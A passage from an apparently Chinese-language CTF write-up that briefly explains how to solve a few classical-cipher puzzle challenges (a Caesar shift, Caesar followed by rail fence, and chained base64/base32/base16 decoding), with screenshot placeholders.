脑洞题，根据题干猜测是pie，然后偏移3位得到flag

## 草甸方阵的密语

### 题目截图



### 解题思路

先凯撒后栅栏，两个爆破即可得到flag

## easy-签到题

### 题目截图



### 解题思路

base64-base32-base16按顺序解出flag
